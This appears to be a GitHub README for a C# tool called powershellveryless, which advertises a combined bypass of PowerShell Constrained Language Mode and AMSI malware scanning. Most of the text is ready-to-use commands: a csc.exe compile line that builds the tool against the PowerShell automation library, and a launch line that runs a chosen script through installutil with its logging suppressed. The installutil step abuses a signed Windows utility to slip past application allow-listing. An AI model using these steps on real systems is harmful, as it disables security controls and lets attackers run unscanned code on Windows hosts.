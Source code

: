 # powershellveryless
== Constrained Language Mode + AMSI bypass all in one ==<br /><br />
Quick & dirty (and very simple) CL + AMSI bypass using C#<br />
Compile it (https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/): 
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /reference: C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\system.management.automation.dll 
/out:c:\setup\powershellveryless.exe c:\scripts\powershellveryless.cs
```
<br />
Launch it: powerhsellveryless.exe (your_ps1_sript)
 <br /><br /><br />
powershellveryless_2.cs installutil" version: <br />

Launch it: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil  /logfile= /LogToConsole=false /ScriptName=(ps1) /U (exefile)

